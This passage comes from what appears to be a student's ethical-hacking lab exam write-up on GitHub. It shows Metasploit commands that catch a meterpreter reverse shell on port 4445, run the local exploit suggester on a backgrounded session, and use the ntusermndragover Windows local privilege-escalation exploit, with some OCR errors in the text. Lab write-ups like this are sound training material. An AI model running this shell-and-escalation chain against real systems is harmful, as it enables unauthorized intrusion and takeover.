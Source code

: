 Set lport 4445

run



![IMG_4462](https://github.com/DionAlexander1/Ethical-Hacking-Lab-Final-Exam/assets/105241007/8fd11aa2-6211-4eaf-be79-674f071ef6d3)



Back on the ssh session, i remotely execute the payload by typing the file name and pressing and enter.


![IMG_4686](https://github.com/DionAlexander1/Ethical-Hacking-Lab-Final-Exam/assets/105241007/d13edffd-b401-4596-8150-9ba414507490)



BOOM! The Metasploit reverse handler responded with a functioning meterpreter.


![IMG_4686 2](https://github.com/DionAlexander1/Ethical-Hacking-Lab-Final-Exam/assets/105241007/1b478b57-22b2-4cfe-bf47-35e8e8ba0eb2)


[RED BELT UNLOCKED].



To get the black belt flag, there is another clue leading me to an XML file with a base64 encoded password inside. Now I could follow that next set of breadcrumbs leading me further down the rabbit hole, or I can take the easv route and use Metasploit to find a vulnerabilitv against mv current meterpreter session. To do this, I'm going to start by backgrounding my session so it is still active but can be recalled
whenever I want.

Background

![IMG_4465](https://github.com/DionAlexander1/Ethical-Hacking-Lab-Final-Exam/assets/105241007/3e1fbcf2-963b-4655-a618-f741b51e21c9)




Next, I will use the exploit suggester and set my session to one I just placed in the
background.

Use post/multi/recon/local exploit_suggester
Type sessions to find the session number
Set session 2
Run


The list returns nine potential vulnerabilities and five of which are validated, so i will be testing those five.


![IMG_4465 2](https://github.com/DionAlexander1/Ethical-Hacking-Lab-Final-Exam/assets/105241007/a65af12f-e164-4bb5-9d01-3ef62054f085)


After testing four of the five validated exploits on the list, ntusermndragover was the lucky winner.

Use exploit/window/local/ntusermndragover
set session 2
run
